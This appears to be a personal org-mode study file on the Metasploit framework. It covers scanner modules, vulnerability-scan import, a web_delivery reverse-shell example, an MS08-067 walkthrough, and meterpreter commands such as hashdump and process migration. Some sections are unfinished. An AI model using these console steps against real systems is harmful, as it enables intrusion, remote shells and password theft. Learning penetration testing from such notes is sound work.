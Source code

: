 #+TAGS: sec_o


* Metasploit							      :sec_o:
GitHub: [[https://github.com/rapid7/metasploit-framework][github.com/rapid7/metaspoit-framework]]
* Cmds
[[file://home/crito/org/tech/cmds/msfconsole.org][msfconsole]]
[[file://home/crito/org/tech/cmds/msfvenom.org][msfvenom]]
* Scanners
mssql_ping - this scanner can be used to determine the tcp port and other details about a running MSSQL
smb_version - this will let you know if a machine has samba running and provide other machine information
ssh_version - this will determine the daemon and ssh version
ftp_version - this will version and fingerprint any running ftp server
anonymous - this will check if the ftp server allows anonymous login
snmp_enum - this will help in detection of devices that are using SNMP 
snmp_login - will use a word list, attempting to login to the device
smtp_enum - 

* Related
- Armitage
- Cobalt Strike
* Description
* Usage
** Setting up the db
- makesure that postgres is running then:
#+BEGIN_SRC sh
msfdb init
#+END_SRC

** Vulnerability Scanners
*** NeXpose
- import scan
#+BEGIN_SRC sh
db_connect postgres:toor@127.0.0.1/msf3
db_import /tmp/host_101.xml
db_hosts -c address,svcs,vulns
#+END_SRC

- scan within msfconsole
#+BEGIN_SRC sh
db_connect postgres:toor@127.0.0.1/msf3
load nexpose
nexpose_connect dookie:s3cr3t@192.168.56.103
nexpose_scan 192.168.56.101
db_hosts -c address
#+END_SRC
Scanning from within the msfconsle whist convenient will produce a less complete scan

*** Nessus
- import scan
#+BEGIN_SRC sh
db_connect postgrs:toor@127.0.0.1/msf3
db_import /tmp/nessus_report_Host_101
#+END_SRC

*** OpenVAS
    
*** Speciality Vuln Scanners
vnc_none_auth - this will scan for VNC server configured without a password (rare as modern VNC servers require password for installation). Possible RealVNC4.1.1
open_x11 - this searches a range of hosts for X11 servers that allow connection without authentication

* Modules
** Web Delivery
URL: https://www.offensive-security.com/metasploit-unleashed/web-delivery/
Metasploit’s Web Delivery Script is a versatile module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine.

Type of App: Python PHP PowerShell

Example:
#+BEGIN_SRC sh
Msfconsole
use exploit/multi/script/web_delivery
msf exploit (web_delivery)>set target 1
msf exploit (web_delivery)>set payload php/meterpreter/reverse_tcp
msf exploit (web_delivery)>set lhost 192.168.1.15 (IP of Local Host)
msf exploit (web_delivery)>set lport 4444
msf exploit (web_delivery)>set svrport 8081
msf exploit (web_delivery)>exploit
#+END_SRC
This will start a service running on 4444 and provide a php one liner to be executed on the target machine

** 39166.c
URL: https://vulners.com/exploitdb/EDB-ID:39166
This exploit is specific for Ubuntu 14.04, and drops the attaker into a shell

** java_rhino
URL: [[http://elatov.github.io/2015/12/hack-windows7-with-the-java-rhino-exploit-using-metasploit/][Hack Windows7 with the Java Rhino Expoit - elatov]]
#+BEGIN_EXAMPLE
msf > use exploit/multi/browser/java_rhino
msf exploit(java_rhino) > show options

Module options (exploit/multi/browser/java_rhino):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)

msf exploit(java_rhino) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Generic (Java Payload)
   1   Windows Universal
   2   Apple OSX
   3   Linux x86
   
msf exploit(java_rhino) > show payloads

Compatible Payloads
===================

   Name                                                Disclosure Date  Rank    Description
   ----                                                ---------------  ----    -----------
   generic/custom                                                       normal  Custom Payload
   generic/debug_trap                                                   normal  Generic x86 Debug Trap
   generic/shell_bind_tcp                                               normal  Generic Command Shell, Bind TCP Inline
   generic/shell_reverse_tcp                                            normal  Generic Command Shell, Reverse TCP Inline
   generic/tight_loop                                                   normal  Generic x86 Tight Loop

#+END_EXAMPLE


* Lecture
** [[https://www.youtube.com/watch?v%3DadSQyRPpiBw][Getting Started with Meatasploit - Nathan Sweaney]]
+ Command Line Access
  - msfconsole
  - msfvenom
- msfpayload, msfencode, msfcli have deprecated to msfvenom

+ Terminology
  - Modules
    - Exoplits - take advantage of vulnerability
    - Payloads - does something on the target sys
    - Encoders - bypass av and ids
    - Auxiliary - scanners that aid in discover of certain systems
    - Post - information gathering modules
  - Meterpreter 
    - advanced payload that runs in memory on the target
  - Plugins
    
+ The exploit
  - Target - Unpatched Windows XP Machine
  - Exploit - MS08-067 - MS Server Service Relative Path Stack corruption
  - Payload - Meterpreter
    
- Finding a Module
msf> search MS08-067
This will ouput a description of the exploit with name, disclousure date, Rank, Description

- Set the Module
msf> use exploit/windows/smb/ms08_067_netapi

- View options for module
msf> show options
This will show use the current settings for this module, and is exploit specific

- View possible targets this exploit works on
msf> show targets

- Set the remote host
msf> set RHOST 10.0.1.45

+ Payloads
  - Singles - Simple, self-contained code
    - example: add a user, execute a cmd
  - Stagers - Setup a network connection
    - Examples: TCP lictener on a port, Reverse TCP connection
  - Stages - Advanced payloads sent via stager
    - Examples: VNC server, command shell, Meterpreter

- set payload
> set payload windows/meterpreter/reverse_tcp
never use the default ports, security aware targets maybe monitoring these ports

- show options
> show options
this will now also set the options for the payload

- to run the exploit
> exploit

+ Meterpreter
  - Tons of cmds
    - help
    - OS cmds (cd, ls, pwd, cat, mv, rm)
    - Networking (arp, ifconfig, netstat, portfwd, route)
    - upload/download
    - Record keystrokes, screenshots, webcam, microphone
  - Additional plugins
    
meterpreter> sysinfo - give overview of the system (not much provided win7 or newer)
meterpreter> getpid - get the current pid of meterpreter
meterpreter> migrate 624 - migrate to another process that is less detectable

+ Auxiliary Modules
  - Sniffing
  - Scanning
  - Fuzzing

- Examples
  - tomcat_mgr_login
  - dir_listing
  - vnc_none_auth
  - http_ntlm
  - mssql_exec
    
- Non-Attack
  - scanner/ssh/ssh_version
  - scanner/mssql/mssql_login
  - scanner/ipmi/ipmi_version
  - scanner/http/http_version
  - scanner/snmp/snmp_login

* Tutorial
** [[https://www.youtube.com/watch?v%3D9J2ZrKHk6DQ][Introduction to metasploit - Adrian Crenshaw]]

-running sessions in msf can be viewed with: 
> sessions
this will list any active sessions

- to connect to a session
> sessions -i 1
this will connect us to session 1

- encoders
  - the x86/shikata_ga_nai
    
- windows bax with meterpreter
hashdump
  - this will dump all the user passwords
tspkg - this can be used in metasploit to cra
wdigest

* Books
[[file://home/crito/Documents/Security/Metasploit/Metasploit-The_Penetration_Testers_Guide.pdf][Metasploit - The Penetration Tester's Guide]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Penetration_Testing_Cookbook_2e.pdf][Metasploit Penetration Testing Cookbook]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Toolkit_for_Penetration_Testing.pdf][Metasploit Toolkit for Penetration Testing]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Guide.pdf][Metasploit Guide]]

* Links
